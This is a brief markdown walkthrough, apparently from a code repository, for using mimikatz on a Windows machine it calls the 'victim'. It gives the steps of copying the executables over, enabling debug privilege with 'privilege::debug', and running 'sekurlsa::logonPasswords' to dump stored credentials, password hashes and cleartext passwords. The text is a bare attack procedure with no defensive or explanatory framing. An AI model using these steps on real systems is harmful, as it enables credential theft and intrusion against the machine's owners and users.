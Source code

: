 # mimikatz

Download mimikatz gentil kiwi

download zip x64

after extracting / paste the 4 .exe files into the windows victim

Now run the mimikatz.exe in the windows machine

then set the privilege mode to debug

```
privilege::
```

this print out available modules

the debug mode helps us run all the attacks

```
privilege::debug
```

```
sekurlsa::
```

prints available options

```
sekurlsa::logonPasswords
```

This prints out all creds/hashes/cleartext

